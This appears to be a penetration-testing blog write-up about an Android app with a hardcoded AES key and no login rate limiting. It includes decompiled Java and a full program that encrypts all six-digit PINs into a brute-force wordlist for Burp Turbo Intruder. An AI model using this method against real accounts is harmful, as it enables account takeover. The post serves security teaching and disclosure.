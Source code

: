 ```yaml
---
title: "Android App Pentesting - Hardcoded Encryption Key + No Rate Limiting Lead to Account Takeover"
date: 2020-9-10T20:15:13+07:00
categories:
  - blog
tags:
  - pentest
  - writeup
  - burpsuite
  - hardcoded-key
---
```


So while pentesting an Android application (lets just call it App A), I stumble upon an unlimited login attempt trial -- which was only consist of a phone number and a **six digit** PIN number.. 

At first I thought that this was a really "juicy" target to bruteforce, but that thought immediately disappear once I see the request. 

Request
![request](/assets/images/writeup-1/req.png)

The request is a JSON object consist of fcmToken, phoneNumber, and a pin number which is somehow looks absolutely different from what I sent from the login screen.

My first guess was that the pin parameter is encoded in Base 64 (notice the "==" at the end), but as I decoding it into plain text, it turns out to be gibberish bytes-like text.
```python
>>> import base64
>>> base64.b64decode("JTuPDh122ItijR3aw989lg==")
b'%;\x8f\x0e\x1dv\xd8\x8bb\x8d\x1d\xda\xc3\xdf=\x96'
```

My next step was to guess how the pin parameter is getting encrypted. Since the app wasn't obfuscated by either Proguard/Dexguard and I was able to decompile and gain a pretty clear view of the source code, I begin by inspecting the LoginActivity -- which of course responsible for handling the login activity.

```java
final String str2 = "0" + this.phoneNumber.getText().toString();
final String obj = this.pin.getText().toString();
LoginRequest loginRequest = new LoginRequest(str2, AES.AES256Encrypt(obj), str);
```


It turns out that the pin number is passed into AES256Encrypt method, and -- you guess it from the title -- the key is hardcoded into the method itself.
```java
    public static String AES256Encrypt(String str) {
        String str2;
        try {
            str2 = Base64.encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")), 0);
        } catch (Exception e) {
            PrintStream printStream = System.err;
            printStream.println("Encrypted Err: " + e.getMessage());
            str2 = e.getMessage();
        }
        return str2.replaceAll("\\n", "");
    }    return str2.replaceAll("\\n", "");
```
As you see, there are two  \<REDACTED> parameter in the code above, the first is Initialization Vector, and the other is Encryption/Secret Key itself.

Refering to the code above, I was able to make a script that encrypts the number in range of 100000-999999 to be then used as wordlist for bruteforcing. 

```java
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.util.Base64;
import java.io.PrintStream;
import javax.crypto.spec.IvParameterSpec;
import java.io.UnsupportedEncodingException;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import javax.crypto.BadPaddingException;
import javax.crypto.IllegalBlockSizeException;
import java.io.BufferedWriter;
import java.io.FileWriter;
    
public class Encrypt {
  public static byte[] encrypt(byte[] bArr, byte[] bArr2, byte[] bArr3) throws UnsupportedEncodingException, NoSuchAlgorithmException, NoSuchPaddingException, InvalidKeyException, InvalidAlgorithmParameterException, IllegalBlockSizeException, BadPaddingException {
      IvParameterSpec ivParameterSpec = new IvParameterSpec(bArr);
      SecretKeySpec secretKeySpec = new SecretKeySpec(bArr2, "AES");
      Cipher instance = Cipher.getInstance("AES/CBC/PKCS5Padding");
      instance.init(1, secretKeySpec, ivParameterSpec);
      return instance.doFinal(bArr3);
  }

  public static String AES256Encrypt(String str) {
      String str2;
    try {
        str2 = Base64.getEncoder().encodeToString(encrypt("<REDACTED>".getBytes("UTF-8"), "<REDACTED>".getBytes("UTF-8"), str.getBytes("UTF-8")));
    } catch (Exception e) {
        PrintStream printStream = System.err;
        printStream.println("Encrypted Err: " + e.getMessage());
        str2 = e.getMessage();
    }
    return str2.replaceAll("\\n", "");
  }

  public static void main(String args[]) {
    for (int i = 100000; i <= 999999; i++){
        try {
            BufferedWriter writer = new BufferedWriter(new FileWriter("pin.txt", true));  
            writer.append(AES256Encrypt(String.valueOf(i)) + "\n");

            writer.close(); 
        } catch (Exception e){
            System.out.println(e);
        }
      } 
  }
}
```


Lastly, by using Burpsuite's Turbo Intruder and the wordlist generated from the script, I was able to gain access to my own account in relatively short amount of time :)

!(intruder)[/assets/images/writeup-1/intruder.png]

So remember whenever you find a parameter that doesn't look like what it is supposed to be, try to find and understand the logic behind it. If its encrypted or obfuscated, try to discover which part of the app is encrypting/obfuscating it, and in the case of encryption, there must be a key to encrypt it. 

For example, if the key is implemented over-the-air, you can obtain it by simply hooking the method using Frida, or if its hardcoded in the app, you can just refer to this post to decrypt it.

See ya :)